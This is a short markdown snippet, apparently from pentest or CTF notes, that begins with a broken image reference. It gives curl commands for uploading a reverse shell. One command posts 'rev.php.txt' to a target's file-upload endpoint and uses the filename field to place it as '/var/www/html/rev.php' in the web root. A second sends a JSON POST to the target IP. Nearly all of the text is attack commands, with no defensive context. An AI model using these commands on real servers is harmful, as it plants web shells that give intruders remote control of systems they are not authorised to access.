 
Upload shell using post request and additional parameters:
---
```sh
curl -X POST "$TARGET_URL/file-upload" -F "file=@rev.php.txt" -F "filename=/var/www/html/rev.php"
```


```bash
curl --header "Content-Type: application/json" --request POST -d @data.json http://$TARGET_IP
```